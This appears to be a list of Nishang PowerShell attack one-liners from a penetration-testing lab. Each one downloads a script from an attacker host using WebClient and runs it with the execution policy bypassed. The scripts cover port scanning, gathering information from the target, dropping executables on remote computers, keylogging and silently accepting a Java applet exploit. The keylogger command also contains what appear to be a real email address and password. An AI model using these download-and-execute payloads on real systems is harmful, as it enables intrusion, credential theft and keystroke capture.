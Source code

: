 

********************************** Nihsang payload which Scan IP-Addresses, Ports and HostNames **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Port-Scan.ps1','%TEMP%\Port-Scan.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Port-Scan.ps1 -StartAddress 192.168.6.50 -EndAddress 192.168.6.100 -ResolveHost -ScanPort





********************************** Nishang Payload which gathers juicy information from the target. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Get-Information.ps1','%TEMP%\Get-Information.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Get-Information.ps1





********************************** Nishang Payload which gathers juicy information from the target. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Information_Gather.ps1','%TEMP%\Information_Gather.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Information_Gather.ps1





********************************** Nishang script which can drop and execute executables on multiple computers. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Run-EXEonRemote.ps1','%TEMP%\Run-EXEonRemote.ps1')
powershell.exe -ExecutionPolicy Bypass -command Invoke-Command -FilePath %TEMP%\Run-EXEonRemote.ps1 -ComputerName Test-PC





********************************** Nishang Payload which logs keys. **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Keylogger.ps1','%TEMP%\Keylogger.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Keylogger.ps1 16e7a8a83f04eec8ab6bc1bce9d103e3 juraghh@gmail.com ITp!Ka3099 1 http://example.com stopthis





********************************** Nishang Payload which silently browses to a URL and accepts Java Applet Run Warning **********************************
powershell.exe (new-object System.Net.WebClient).DownloadFile('http://Strategic-Sec-Ubuntu-VM-IP/nishang/Browse_Accept_Applet.ps1','%TEMP%\Browse_Accept_Applet.ps1')
powershell.exe -ExecutionPolicy Bypass -command %TEMP%\Browse_Accept_Applet.ps1 http://Strategic-Sec-Ubuntu-VM-IP:8080/JavaExploit
 


